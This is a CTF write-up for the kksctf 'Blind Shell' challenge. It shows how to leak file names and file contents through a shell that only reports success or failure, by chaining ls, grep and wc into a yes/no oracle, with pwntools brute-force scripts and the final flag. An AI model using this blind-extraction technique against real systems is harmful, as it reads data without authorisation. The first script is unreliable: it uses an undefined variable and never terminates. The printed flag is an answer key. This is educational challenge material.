# Blind Shell

Category: misc
Points: 345

## Problem

It's simple enough, either you've succeeded or you've failed.
Connect here: nc tasks.kksctf.ru 30010

## Writeup

In this challenge we are dealing with a particular shell.
When we execute a command we have a fixed output which consists of
"Success!" in case the execution is successful and "Failed!"
on the other hand.

For example:

```
$cat
Success!
$c
Failed!
```

The idea is to find files in the current directory, using the terminal output to our advantage.
With the aid of ls, wc, and grep, it’s possible to see inside the current directory the number of files, and also their names

To see how much files are in the current directory we’ve run this piece of commands:

```
$ ls | wc -l | grep 1
Failed!
$ ls | wc -l | grep 2
Failed!
$ ls | wc -l | grep 3
Success!
```

And to see the name of each file:<br>
First we’ve looked with what letter each filename begins:

```
$ ls | grep ^f | wc -l | grep 1
Success!
$ ls | grep ^v | wc -l | grep 1
Failed!
$ ls | grep ^m | wc -l | grep 1
Success!
$ ls | grep ^s | wc -l | grep 1
Success!
```

So there are 3 items into the directory, respectively beginning with ’f’, ‘m’ and ‘s’.
Second, using this information, we’ve run the following script, in order to know their full names: 

```
$ ls | grep ^f | wc -l | grep 1
Success!
$ ls | grep ^fl | wc -l | grep 1
Success!
$ ls | grep ^fla | wc -l | grep 1
Success!
$ ls | grep ^flag\.t | wc -l | grep 1
Success!
$ ls | grep ^flag\.txt | wc -l | grep 1
Success!
```

The obtained files were:
    -flag.txt: 	text file
    -server.py: 	python script
    -maybehere: 	directory

The same procedure is used to read from flag.txt:

```
from pwn import *

alphabet = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!"#()+,-/:;<=>?@[]^'

conn = remote('tasks.kksctf.ru', 30010)
conn.sendline("cat flag.txt | grep ^L")
conn.recvline()

read = 'L'

while True:
    for i in alphabet:
        test = read + i
        print(test)
        conn.sendline("cat flag.txt | grep " + test)
        if chr(r[2]) == 'S':
            read = test
            break


print("Here's your content: ", read)
```
After launching the script we obtain:

```
Look_around,maybe_here
```

The suspect was that inside maybehere directory there was something interesting; 
so we’ve tried to change the current directory into ./maybehere, but we’ve noticed 
that ‘cd’ command actually doesn’t change directory - in fact, we’ve tried to type ‘cd /’, 
but the current working directory remains the same, even if it returns “Success!”.
Again, thanks to the superpowers of ls, cat and grep, we’ve looked that into 
/maybehere there was the file flag.txt; so we’ve run the same script in order to get its content,
and we’ve finally discovered the flag

Script:


```
from pwn import *

alphabet = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!"#()+,-/:;<=>?@[]^'

conn = remote('tasks.kksctf.ru', 30010)
conn.sendline("cat maybehere/flag.txt | grep kks{")
conn.recvline()

flag = 'kks{'

while True:
    for i in alphabet:
        test = flag + i
        print(test)
        conn.sendline("cat maybehere/flag.txt | grep " + test)
        r = conn.recvline()
        print(r)
        if chr(r[2]) == 'S':
            flag = test
            break

    if flag[-1] == '}':
        break

print("Here's your flag: ", flag)
```

### Flag
```kks{Bl1nD_sH311_s2cKs_b4t_Y0U_ar3_amaz19g}```
